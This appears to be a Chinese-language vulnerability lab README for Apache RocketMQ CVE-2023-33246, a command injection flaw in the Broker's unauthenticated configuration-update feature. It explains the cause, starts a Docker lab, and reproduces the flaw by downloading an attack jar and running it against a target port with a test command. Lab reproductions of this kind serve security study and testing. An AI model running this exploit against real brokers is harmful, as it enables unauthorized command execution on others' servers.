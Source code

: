 # Apache RocketMQ 远程命令执行漏洞（CVE-2023-33246）

Apache RocketMQ是一个分布式消息平台。

在其5.1.0版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

参考链接：

- <https://github.com/I5N0rth/CVE-2023-33246>
- <https://github.com/Le1a/CVE-2023-33246>
- <https://paper.seebug.org/2081/>
- <https://xz.aliyun.com/news/12137>
- <https://xz.aliyun.com/news/12035>

## 漏洞环境

执行如下命令启动一个RocketMQ broker 5.1.0:

```shell
docker compose up -d
```

环境启动后，RocketMQ的Broker将会监听在10911端口。

## 漏洞复现

该漏洞存在于 RocketMQ 的 Broker 组件的配置更新功能中。Broker 组件在配置更新接口中缺乏适当的身份认证和输入验证，攻击者可以修改配置值。

这个漏洞之所以特别危险，是因为 RocketMQ 的 filter server 机制。RocketMQ 每30秒会执行一次 filter server，执行方式是通过运行 shell 命令。这个命令是通过字符串拼接构造的，其中包含了来自配置中的 `rocketmqHome` 值。由于攻击者可以控制这个配置值，且这个值在构造命令时没有经过适当的过滤，因此导致了命令注入漏洞。

我们可以使用这个[简单的项目](https://github.com/vulhub/rocketmq-attack)来复现漏洞并执行任意命令：

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.0/rocketmq-attack-1.0-SNAPSHOT.jar
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target your-ip:10911 --cmd "touch /tmp/success"
```

等待最多30秒后，可见`touch /tmp/success`命令已成功执行：

![](1.png)
